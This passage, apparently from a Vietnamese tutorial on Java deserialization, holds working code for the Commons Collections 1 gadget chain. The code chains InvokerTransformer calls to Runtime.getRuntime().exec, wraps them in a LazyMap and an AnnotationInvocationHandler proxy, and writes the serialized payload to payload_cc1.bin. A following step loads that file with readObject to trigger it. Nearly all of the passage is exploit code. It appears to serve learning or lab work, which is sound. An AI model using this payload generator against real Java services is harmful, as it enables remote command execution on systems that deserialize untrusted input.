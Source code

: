 ```js
                        String.class, Class[].class }, new Object[] {  
                        "getRuntime", new Class[0] }),  
                new InvokerTransformer("invoke", new Class[] {  
                        Object.class, Object[].class }, new Object[] {  
                        null, new Object[0] }),  
                new InvokerTransformer("exec",  
                        new Class[] { String.class }, execArgs),  
                new ConstantTransformer(1) };  
  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
  
        // Create a LazyMap  
        Map map = new HashMap<>();  
        Map lazyMap = LazyMap.decorate(map, chainedTransformer);  
  
        // Init a `sun.reflect.annotation.AnnotationInvocationHandler` object  
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
        final Constructor<?> constructor = cls.getDeclaredConstructors()[0];  
        constructor.setAccessible(true);  
        InvocationHandler lazyMapInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);  
        Map evilProxy = (Map) Proxy.newProxyInstance(CommonsCollections1.class.getClassLoader(), new Class[]{Map.class}, lazyMapInvocationHandler);  
  
        InvocationHandler serializedProxyInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, evilProxy);  
  
        serialize(serializedProxyInvocationHandler);  
    }  
  
    public static void serialize(Object object) throws IOException {  
        FileOutputStream fileOut = new FileOutputStream("payload_cc1.bin");  
        ObjectOutputStream out = new ObjectOutputStream(fileOut);  
        out.writeObject(object);  
        out.close();  
        fileOut.close();  
    }  
}
```

##### ✅ **Bước 2: Test payload với chương trình deserialization (phần 2a)**

Dùng lại chương trình bạn đã viết ở **phần 2a** 

```js
FileInputStream fis = new FileInputStream("payload_cc1.bin");  
ObjectInputStream ois = new ObjectInputStream(fis);  

Object obj = ois.readObject();
```

